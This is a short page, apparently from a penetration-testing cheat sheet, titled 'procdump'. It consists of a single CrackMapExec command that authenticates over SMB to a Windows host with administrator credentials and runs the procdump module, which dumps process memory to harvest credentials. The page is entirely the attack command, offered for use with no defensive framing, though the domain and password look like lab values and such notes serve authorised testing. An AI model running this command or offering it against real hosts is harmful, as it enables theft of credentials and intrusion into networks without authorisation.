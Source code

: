 # 🟢 procdump

{% code overflow="wrap" %}
```bash
crackmapexec smb 192.168.1.119 -u 'Administrator' -p 'Password!' -d dc.deathstar.rfs -M procdump
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>
